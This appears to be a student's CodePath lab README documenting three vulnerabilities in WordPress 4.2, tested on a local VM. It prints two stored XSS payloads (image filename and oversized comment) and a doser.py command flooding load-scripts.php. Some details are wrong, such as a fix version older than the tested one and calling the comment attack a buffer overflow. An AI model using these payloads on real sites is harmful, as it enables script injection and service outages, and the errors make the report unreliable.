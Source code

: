 # Week7-CodePath

# Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report


1. Authenticated Stored Cross-Site Scripting via Image Filename
  - [ ] Summary: By inserting javascript infront of filename of image when the file is uploaded and the image is selected the script will run. This is due to Word Press not filtering javascript in the filenames text when an image is uploaded.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.0.13
  - [ ] GIF Walkthrough: https://gfycat.com/anothersorrowfulfritillarybutterfly
  - [ ] Steps to recreate: Include script <img src=a onclick=alert("Oh_Baby_a_Triple!")> infront of the .img
  - [ ] Affected source code: 
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
2. Authenticated Stored Cross-Site Scripting
  - [ ] Summary: By inserting malicious javascript (“<a title='x onclick=alert(unescape(/Pwned/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px "64kb characters"><a>") in the comment section followed by 64kb of characters, this creates a buffer overflow that allows the script to run when on the Post's page.
    - Vulnerability types: Cross Site Scripting (XSS)
    - Tested in version: 4.2
    - Fixed in version: 4.2.3
  - [ ] GIF Walkthrough: https://gfycat.com/CriminalWhichDoctorfish
  - [ ] Steps to recreate: Add the javascript in the comment section and after posting the comment click the page to activate XSS onclick.
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
3. Application Denial of Service (DoS) (Unpatched)
  - [ ] Summary: This DOS attack is accomplished by exploiting the vulnerability found in the page load-scripts.php which allows the user to send multiple javascript files in one request, this causes the network to slow to a crawl trying process all the scripts.
    - Vulnerability types: DOS attack
    - Tested in version: 4.2
    - Fixed in version: never fixed
  - [ ] GIF Walkthrough: https://gfycat.com/soulfulsophisticatedbarbet
  - [ ] Steps to recreate: By using the doser.py code created by Barak Tawily on github we can insert this command to DOS attack the Word Press server.
 
  ```python doser.py -g 'http://WPdistillery.vm/wp-admin/load-scripts.php?c=1&load%5B%5D=eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter&ver=4.9' -t 9999```
  
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets
Reference:https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html

Reference:https://www.exploit-db.com/exploits/36844/

Reference:https://github.com/quitten/doser.py

Reference:https://thehackernews.com/2018/02/wordpress-dos-exploit.html

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [giphy](https://giphy.com/).

## Notes

During testing WPdistillery after performing a buffer overflow attack I ran into the issue of the Virtual Machine breaking. In which I had to reinstall the WPdistillery machine and had to set up everything again.

## License

    Copyright [2018] [Michael Freeman]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
